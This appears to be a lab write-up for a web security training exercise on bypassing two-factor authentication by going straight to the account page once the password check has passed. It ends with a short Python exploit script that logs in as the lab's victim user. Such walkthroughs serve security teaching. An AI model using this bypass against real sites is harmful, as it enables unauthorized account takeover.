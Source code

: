 # Lab: 2FA simple bypass

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's credentials carlos:montoya

We log in with our credentials to observe the behavior of the site. It asks for a 2FA, we click on `Email client`, receive the `OTP`, access the `wiener` dashboard, and from there, we obtain the general path to the dashboards.

We log in with Carlos' credentials and see that it asks for a 2FA:
![image](https://github.com/user-attachments/assets/0e1ee201-4512-4f60-8c8b-26616ace93bb)

When we check the Burp history, we can see that the 2FA is processed after the login has been handled:
![image](https://github.com/user-attachments/assets/a681a079-25bf-4112-bc79-989d14d037a1)

We also see that the server returns a `302 Found` with the session cookie, which gives us a hint that the 2FA is processed after successfully logging in:
![image](https://github.com/user-attachments/assets/ff1215bb-1bd2-42f2-b128-4a40528b9434)


We navigate to the main dashboard of the user `carlos` and complete the lab:
![image](https://github.com/user-attachments/assets/70c8b194-7bd8-40ab-9b9a-d1b50a5a4297)

---
# Exploit

```python
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
session = requests.Session()
url = 'https://0a2000bd04de5848917b62f2000c004f.web-security-academy.net'

url_login = url + "/login"
data = {"username":"carlos", "password":"montoya"}
resp = session.post(url_login, data=data, verify=False, proxies=proxies)

url_carlos_account = url + "/my-account?id=carlos"
r_carlos_account = session.get(url_carlos_account, verify=False, proxies=proxies)

if r_carlos_account.status_code == 200:
    print("Congratulations, you solved the lab!")
```
